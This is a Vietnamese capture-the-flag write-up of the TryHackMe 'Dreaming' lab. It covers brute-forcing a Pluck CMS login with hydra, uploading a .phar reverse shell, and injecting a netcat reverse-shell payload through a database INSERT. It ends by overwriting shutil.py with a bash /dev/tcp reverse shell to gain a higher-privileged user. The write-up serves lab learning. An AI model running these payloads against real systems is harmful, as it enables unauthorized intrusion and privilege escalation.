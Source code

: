 # [THM] Dreaming write-up

- IP: 10.10.197.206

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.197.206

<p align="center">
    <img src="./img/nmap-scan.png" alt="Nmap scan">
</p>

Có 2 port dịch vụ đang mở bao gồm
- Port 22 chạy dịch vụ SSH
- Port 80 chạy dịch vụ HTTP 

Giao diện trang web đó là default page apache2
<p align="center">
    <img src="./img/web-interface.png" alt="Web interface">
</p>

Sau khi truy cập và kiểm tra source code thì không phát hiện ra điều gì đặc biệt. Tiếp tục sử dụng tool `ffuf` để scan các thư mục ẩn 
```sh 
ffuf -u "http://10.10.197.206/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt -e .php,.phtml,.sh -recursion
```

<p align="center">
    <img src="./img/ffuf-scan.png" alt="Ffuf scan">
</p>

Ta thấy có thư mục `/app` được tìm thấy và khi truy cập vào bên trong thư mục `/app` thì phát hiện ra thư mục `/pluck-4.7.13`. Ta tiếp tục truy cập vào thư mục đó và nhận được giao diện sau

<p align="center">
    <img src="./img/pluck-interface.png" alt="Pluck interface">
</p>

Để ý đường dẫn có phần GET param `file=dreaming` có thể nghĩ ngay tới `Path traversal` thử gửi param `../../../../../../../etc/passwd` xem có điều gì xảy ra không

<p align="center">
    <img src="./img/path-traversal-test.png" alt="Path traversal test">
</p>

Có vẻ như ta không thể khai thác lỗ hổng này ở đây. Quay trở lại và tiếp tục scan bằng ffuf xem thử còn thư mục nào ẩn không 
```sh
ffuf -u "http://10.10.197.206/app/pluck-4.7.13/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt -e .php,.phtml,.sh
```
<p align="center">
    <img src="./img/ffuf-scan-2.png" alt="Ffuf scan">
</p>

Sau khi scan thì phát hiện ra các thư mục ẩn nhưng hầu hết là không có thông tin gì hữu ích ngoài `/admin.php` và `/login.php`. Khi truy cập `/admin.php` thì được response là chưa đăng nhập và được redirect về `/login.php`

<p align="center">
    <img src="./img/login-interface.png" alt="Login interface">
</p>

Form login này cần mỗi password, vậy ta sẽ thử brute force xem sao. Kiểm tra payload khi submit bao gồm `cont1=test&bogus=&submit=Log+in`
-   `cont1` mật khẩu người dùng nhập vào
-   `bogus` trường này được để trống thì sẽ được MD5-encrypt password, có thể check trong source code login của thư viện
-   `submit` hành động login

<p align="center">
    <img src="./img/login-request.png" alt="Login request">
</p>

<p align="center">
    <img src="./img/login-source.png" alt="Login Source">
</p>

## Exploit
Sử dụng công cụ `hydra` để brute force mật khẩu với câu lệnh 
```sh
hydra -l toannd -P /home/kali/Desktop/rockyou.txt 10.10.197.206 http-post-form "/app/pluck-4.7.13/login.php:cont1=^PASS^&bogus=&submit=Log+in:Password incorrect" -V
```
<p align="center">
    <img src="./img/admin-password.png" alt="Admin password">
</p>

Ta đã có được mật khẩu và thực hiện đăng nhập thành công, vào được giao diện dashboard của admin

<p align="center">
    <img src="./img/dashborad.png" alt="Dashboard">
</p>

Sau khi khám phá và đã tìm thấy page có chức năng upload

<p align="center">
    <img src="./img/upload-interface.png" alt="Upload interface">
</p>

Ta sẽ thử upload reverse shell lên xem có điều gì xảy ra không

<p align="center">
    <img src="./img/reverse-shell-php.png" alt="Reverse shell php">
</p>

Trang web đã tự động thêm đuôi file `.txt` vào các tệp xử lý php để vô hiệu hóa thực thi. Sau khi tôi tìm hiểu thì còn 1 định dạng file nữa cũng có thể thực thi đó là `phar` file trong php.

<p align="center">
    <img src="./img/reverse-shell-phar.png" alt="Reverse shell phar">
</p>

Đã upload thành công và không bị thêm đuôi `.txt`. Bây giờ cần tạo **netcat listener** trên máy attacker và truy cập vào file `shell.phar` để truy cập được vào web shell

<p align="center">
    <img src="./img/web-shell.png" alt="Web shell">
</p>

Đúng là như đã dự đoán khi vào check source thì đã biết lý do tại sao đuôi `.txt` được thêm vào

<p align="center">
    <img src="./img/validate-extension.png" alt="Validate extension">
</p>

## Lucien Flag

<p align="center">
    <img src="./img/flag-fail.png" alt="Cat flag fail">
</p>

Như ta có thể thấy user hiện tại không thể xem bất cứ flag nào của các user khác, vậy việc của chúng ta bây giờ là cần leo thang đặc quyền để có thể xem được những file đó. Sau một hồi tìm kiếm thì đã thấy được file `/opt/test.py` có chứa mật khẩu của user `lucien`

<p align="center">
    <img src="./img/lucien-pass.png" alt="Lucien password">
</p>

Sau khi đăng nhập ta đã đọc được file `lucien_flag.txt` để lấy được flag của lucien

<p align="center">
    <img src="./img/lucien-flag.png" alt="Lucien flag">
</p>

## Death flag

Quay lại với `/opt` ta thấy có `getDreams.py` có vẻ giống như file `/home/death/getDreams.py`

<p align="center">
    <img src="./img/get-dreams.png" alt="getDreams.py">
</p>

Bên trên là nội dung của file `getDreams.py`. Hàm `getDreams()` có chức năng kết nối DB và thực hiện truy vấn trường `dreamer` và `dream` trong bảng `dreams`. Nếu có kết quả chương trình sẽ tạo 1 lệnh shell `echo {dreamer} + {dream}` để in thông tin đó ra bằng cách sử dụng `subprocess.check_output`. lệnh này được chạy trong môi trường shell và kết quả của lệnh sẽ được in ra. Vậy ta chỉ cần kiểm soát được giá trị đầu vào của command đó là `dreamer` hoặc `dream` thì có thể thực hiện được command injection

Tiếp tục khám phá trong thư mục của user `lucien` tình cờ đọc được file `.bash_history` và đã thấy được password của database với user lucien. Ta sẽ thử truy cập và thử xem có thể inject thứ gì vào đó không

<p align="center">
    <img src="./img/db-pass.png" alt="Database password">
</p>

Khi truy cập vào database đã tìm thấy bảng mà chúng ta cần
<p align="center">
    <img src="./img/dream-table.png" alt="Dream table">
</p>

Chạy câu lệnh sau để update bảng `dreams` trong database để thêm reverse shell

```sql
INSERT INTO dreams (dreamer, dream) VALUES ('hacker', '$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.21.113.26 4321 >/tmp/f)');
```

<p align="center">
    <img src="./img/insert-command.png" alt="Insert command">
</p>

Cũng trong file `.bash_history` ta nhận thấy 1 số câu lệnh kiểm tra quyền 
<p align="center">
    <img src="./img/command-sudo-l.png" alt="Command check quyền">
</p>

Đúng như dự đoán có thể chạy file `/home/death/getDreams.py` mà không cần mật khẩu với user `death`
<p align="center">
    <img src="./img/sudo-l-lucien.png" alt="Sudo -l lucien">
</p>

Với command mà ta vừa inject thực hiện tạo **netcat listener** trên máy attacker để có thể truy cập shell của user `death` và chạy câu lệnh `sudo -u death /usr/bin/python3 /home/death/getDreams.py`
Sau khi truy cập được shell của `death` đã xem được file `death_flag.txt` và lấy được flag của user này

<p align="center">
    <img src="./img/death-flag.png" alt="Death flag">
</p>

## Morpheus Flag
Hiện tại còn 1 user nữa đó là `morpheus`, thực hiện check trong thư mục của `morpheus` thì chỉ có file flag là không có quyền read, thấy có file `restore.py` lạ

<p align="center">
    <img src="./img/restore-py.png" alt="Restore py">
</p>

File này đang sử dụng thư viện `shutil` để thực hiện backup file, tiếp tục kiểm tra các file thuộc group `death` có quyền thực thi thì phát hiện có `shutil.py`. Vì vậy có thể tận dụng để chèn reverse shell

<p align="center">
    <img src="./img/shutil-py-per.png" alt="Permission">
</p>

Để check được các cronjob hay script đang chạy ngầm không cần quyền root ta cần đến công cụ `pspy64`, công cụ này chưa có sẵn nên ta cần install về
- Đầu tiên sẽ install về trên máy attacker với câu lệnh 
```sh
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```
<p align="center">
    <img src="./img/pspy64-download.png" alt="Pspy64 download">
</p>

Sau đó tạo server trên máy attacker và install trên server đang tấn công

<p align="center">
    <img src="./img/wget-pspy64.png" alt="Pspy64 download">
</p>

Tiếp sau đó chạy 2 câu lệnh để cấp quyền và khởi chạy
```sh
chmod +x /tmp/pspy64
/tmp/pspy64
```

<p align="center">
    <img src="./img/pspy64-run.png" alt="Pspy64 Run">
</p>

Ta nhận thấy file `/home/morpheus/restore.py` đang được chạy ngầm. Mà file này đang sử dụng thư viện `shutil.py`, thư viện mà ta có thể chèn reverse shell. Nên ta sẽ chèn reverse shell vào thư viện với câu lệnh 
```sh
echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/10.21.113.26/3333 0>&1'\")" > /usr/bin/python3.8/shutil.py
```

Sau đó tạo **netcat listener** trên máy attacker để lắng nghe và sau khi đợi thời gian ngắn đã truy cập được shell của user `morpheus`. Tại đây đã lấy được flag cuối cùng
<p align="center">
    <img src="./img/morpheus-flag.png" alt="Morpheus flag">
</p>

## DONE
<p align="center">
    <img src="./img/done.png" alt="Done">
</p>